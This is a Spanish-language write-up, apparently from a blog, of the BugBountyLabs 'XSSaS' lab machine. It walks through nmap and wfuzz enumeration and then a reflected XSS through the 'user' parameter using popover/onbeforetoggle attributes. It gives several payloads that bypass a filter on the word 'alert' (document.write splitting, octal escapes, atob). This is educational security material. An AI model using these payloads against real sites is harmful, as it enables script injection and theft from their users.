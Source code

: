 ```yaml
---
title: "XSSaS"
date: 2025-02-12 00:00:00 +0800
categories: writeups bugbountylabs
tags: xss writeup dockerlabs linux
description: Writeup de la máquina XSSaS de BugBountyLabs.
---
```


## Resumen de la resolución

**XSSaS** es una máquina **Linux** de dificultad **Insane (Experto)** de la plataforma de **BugBountyLabs**. En ella explotaremos un **XSS** a través parámetro **user** que le pasamos vía **GET**. Dicho parámetro se almacena en el atributo `value` del campo `input`. Finalmente, la inyección **XSS** se acontece gracias al atributo `popovertarget` usado en el `button` y al atributo `onbeforetoggle` y `popover` que inyectamos en el campo `input`.

___
## Enumeración

En primer lugar, realizaremos un barrido en la red para encontrar la **Dirección IP** de la máquina víctima, para ello usaremos el siguiente comando.

```bash
arp-scan -I ens33 --localnet
```

A continuación podemos ver la **Dirección IP**  ya que el **OUI** es **08:00:27**, correspondiente a una máquina virtual de **Virtual Box**.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172108.png>)

Después le lanzaremos un **ping** para ver si se encuentra activa dicha máquina, además de ver si acepta la traza **ICM**. Comprobamos que efectivamente nos devuelve el paquete que le enviamos por lo que acepta la traza **ICMP**, gracias al **ttl** podremos saber si se trata de una máquina **Linux (TTL 64 )** y **Windows (TTL 128)**, y vemos que se trata de una máquina **Linux** pues cuenta con **TTL** próximo a 64 (**63**), además gracias al script **whichSystem.py** podremos conocer dicha información.
### Nmap

En segundo lugar, realizaremos un escaneo por **TCP** usando **Nmap** para ver que puertos de la máquina víctima se encuentra abiertos.

```bash
nmap -p- --open --min-rate 5000 -sS -v -Pn -n 172.17.0.2 -oG allPorts
```

Observamos como nos reporta que se encuentra abiertos los puertos **22 y 80**.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212171753.png>)

___
### Puerto 80 - HTTP (Apache)

En primer lugar, nos dirigimos al servidor web y tras un buen rato intentando encontrar el vector de entrada veremos que al introducir el parámetro **user** en la **URL**, dicho valor se ve reflejado en el atributo `value` del campo `input`.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172458.png>)

Es posible que no encontremos el parámetro **user**, por lo que alternativamente lo podríamos haber descubierto a través de un fuzzing de parámetros usando **Wfuzz** de la siguiente forma.

```bash
wfuzz -c -u "http://192.168.26.79/?FUZZ=test" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt --hh 548
```

Tal y como se aprecia abajo conseguimos descubrir el parámetro `user` de igual forma.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212175110.png>)

Una vez hemos descubierto el vector de entrada probaremos la siguiente inyección **XSS** usando este payload.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="><h1>test</h1>
```

Tal y como vemos a continuación, los caracteres `<` y `>` están siendo convertidos a `&lt;` y `&lt`, por lo que no podremos inyectar un **XSS**.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172540.png>)

Tras revisar el código fuente nos llamará la atención el atributo `popovertarget` presente en el `button`. Por lo que buscando por internet daremos con el siguiente artículo [XSS popovertarget - Portswigger](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) donde explican como acontecer un **XSS** a partir de este atributo (`popovertarget`).

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172611.png>)

___
## Explotación
### **XSS**

Tras mirar el anterior artículo entenderemos como acontecer un **XSS** abusando del atributo `popovertarget`, en definitiva el payload es el siguiente.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="prompt(1)
```

Tal y como vemos a continuación conseguimos mostrar el cuadro del `prompt()`.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172926.png>)

Usando el mismo payload que antes intentaremos mostrar una ventana de `alert()`.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="alert(1)
```

Observamos que nos salta un mensaje de error ya que la palabra **alert** no está permitida.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212173018.png>)

Una forma de **bypasear** esta comprobación es usando la función `document.write()` tal que así.

> Destacar la importancia de **URL Encodear** los `+` a `%2B`.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="document.write('<script>ale'%2B'rt(1)</script>')
```

Tal y como se aprecia en la siguiente captura de pantalla conseguimos mostrar la ventana de `alert()`.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212174221.png>)

Tras ejecutar el anterior `alert()` no me detuve y seguí investigando sobre diferentes formas de **bypasearlo** y me encontré el siguiente artículo [XSS Bypass alert - Portswigger](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-script-code) donde pude extraer los siguientes payloads alternativos para ejecutar el `alert()`.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="eval('a\154ert(1)')
```

```http
http://192.168.26.79/?user="id=x popover onbeforetoggle="eval(atob('YWxlcnQoMSk'));
```